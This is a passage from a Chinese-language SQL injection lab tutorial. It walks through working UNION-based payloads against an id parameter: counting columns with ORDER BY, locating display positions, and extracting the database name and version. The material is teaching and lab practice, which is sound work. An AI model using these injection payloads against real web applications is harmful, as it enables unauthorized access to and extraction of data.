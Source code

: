 ```
select * from users where id='1' order by 3 --+' limit 0,1
```

构造出来是这个样子

所以能够判断有三个字段，也就是三列数据。

## 3. 判断回显位置

`?id=-1' union select 1,2,3 --+`

```
 select * from users where id='-1' union select 1,2,3 --+' limit 0,1
```

让union前的语句无法执，通过后面显示的123来判断回显点。

可以看到2,3是回显点。

![image-20221223155703758](assets/image-20221223155703758.png)

##  4.信息收集

database() 数据库名称

version()  数据库的版本

 `?id=-1' union select 1,database(),version()--+ `

```\
select * from users where id='-1' union select 1,database(),version()--+' limit 0,1
```

可以看到数据库名称和版本

![image-20221223160140218](assets/image-20221223160140218.png)
